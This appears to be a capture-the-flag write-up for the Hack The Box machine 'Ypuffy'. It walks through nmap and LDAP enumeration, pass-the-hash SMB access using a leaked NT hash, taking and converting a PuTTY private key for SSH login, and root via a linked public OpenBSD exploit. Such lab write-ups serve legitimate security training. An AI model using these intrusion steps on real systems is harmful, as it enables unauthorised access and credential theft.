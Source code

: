 # [Ypuffy](https://app.hackthebox.com/machines/Ypuffy)

```bash
nmap -p-  --min-rate 10000 10.10.10.107 -Pn
```

![alt text](img/image.png)


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80,139,389,445 10.10.10.107 -Pn
```

![alt text](img/image-1.png)


From nmap scan result, I see that `hackthebox.htb` domain name is resolved for this ip address. That's why I add this record into `/etc/hosts` file.


Let's enumerate `LDAP` more via `nmap` tool.

```bash
nmap -n -sV --script "ldap* and not brute" 10.10.10.107
```

![alt text](img/image-2.png)

I find some credentials for `bob8791` and `alice1978` users, let's check them.

I check `sambaNTPassword` for `alice1978` user via `smbmap` command.

```bash
smbmap -u alice1978 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDCF6047784DE8B9FD8B' -H 10.10.10.107
```

![alt text](img/image-3.png)


Note: Here for `-p` flag's value, I add `LM HASH` as arbitrary string, it will accepted.

As you see, this user has `READ,WRITE` permission for `alice` share. Let's access to here via `smbclient` command.

```bash
smbclient \\\\10.10.10.107\\alice -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B --pw-nt-hash
```

![alt text](img/image-4.png)

I find `my_private_key.ppk` file from here which belongs to `PuTTy`. And this key file is used for `Windows` machines.


![alt text](img/image-5.png)


But my target is `Linux` machine, that's why I need to convert `.ppk` key into `OpenSSH` key file.

For this, I will use `puttygen` command.
```bash
puttygen my_private_key.ppk -O private-openssh -o alice.pem
```

![alt text](img/image-6.png)


Let's connect into machine via this `OpenSSH RSA` file.
```bash
chmod 600 alice.pem
ssh -i alice.pem alice1978@10.10.10.107
```

user.txt

![alt text](img/image-7.png)


For `Privilege Escalation`, I just run `uname -a` to learn information about machine.

![alt text](img/image-8.png)


So, I check this version of `OpenBSD` to find publicly known exploit and found [this](https://www.exploit-db.com/exploits/45742).

Let's use this.


![alt text](img/image-9.png)


root.txt

![alt text](img/image-10.png)